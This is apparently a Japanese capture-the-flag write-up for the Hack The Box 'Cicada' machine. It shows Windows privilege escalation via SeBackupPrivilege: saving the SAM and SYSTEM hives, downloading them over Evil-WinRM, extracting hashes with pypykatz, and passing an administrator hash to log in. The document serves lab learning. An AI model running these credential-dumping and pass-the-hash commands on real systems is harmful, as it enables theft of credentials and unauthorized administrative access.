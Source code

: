 ### 参考リンク
- [解説](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)
- [Hack_The_Box-Cicada](https://medium.com/@aenoshrajora79/introduction-8bf57544b515)

### 1 権限の確認  
Evil-Winrmで接続後にカレントユーザの権限を確認
```bash
whoami /priv
```
![image](https://github.com/user-attachments/assets/3b90d753-ae94-44d7-8a43-1d9dfbada7ff)

### 2 ディレクトリの作成及SAMファイル、SYSTEMファイルの作成
```bash
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

![image](https://github.com/user-attachments/assets/33eb927b-6408-494a-8f64-47965849d643)

### 3 ファイルのダウンロード
```bash
download  sam
download system
```

![image](https://github.com/user-attachments/assets/ace02a4b-cc5c-4a0a-9de6-543e99967c85)

### 4 ハッシュの取得
```bash
pypykatz registry --sam sam system
```
![image](https://github.com/user-attachments/assets/77a7a645-19b9-4edd-8320-03f5327f8523)

### 5 ハッシュを利用したログイン
```bash
evil-winrm -i cicada.htb -u administrator -H "2b87e7c93a3e8a0ea4a581937016f341"
```
![image](https://github.com/user-attachments/assets/41a7fcd5-34af-4d72-9e53-34ff6b1b78c9)
